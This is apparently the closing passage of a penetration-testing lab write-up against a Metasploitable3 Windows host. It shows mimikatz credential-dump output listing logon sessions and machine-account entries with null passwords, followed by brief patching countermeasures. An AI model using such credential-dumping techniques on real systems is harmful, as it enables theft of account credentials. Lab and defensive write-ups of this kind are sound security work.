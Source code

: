```none
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 9/1/2020 7:33:17 PM
SID               :
        msv :
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : METASPLOITABLE3$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 9/1/2020 7:33:17 PM
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : METASPLOITABLE3$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
         * Username : metasploitable3$
         * Domain   : WORKGROUP
         * Password : (null)
        ssp :
        credman :

mimikatz(powershell) # exit
Bye!
```

## Countermeasures

* Keep all outdated software updated with the latest security patches (both applications and operating system).
* Upgrade to the latest version of Windows Server.
